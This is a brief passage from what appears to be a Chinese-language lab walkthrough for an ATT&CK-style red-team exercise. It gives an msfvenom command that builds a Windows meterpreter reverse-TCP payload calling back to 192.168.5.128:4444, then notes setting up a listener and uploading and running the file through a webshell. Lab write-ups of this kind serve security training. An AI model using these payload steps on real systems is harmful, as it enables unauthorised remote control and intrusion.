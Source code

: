 ### 上线msf

生成木马

```c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.128 LPORT=4444 -f exe > shell.exe
```

![Untitled](ATT&CK-2%204ee62577f68b4c6f932f048639d26d48/Untitled%2010.png)

监听：

利用webshell上传并执行

![Untitled](ATT&CK-2%204ee62577f68b4c6f932f048639d26d48/Untitled%2011.png)
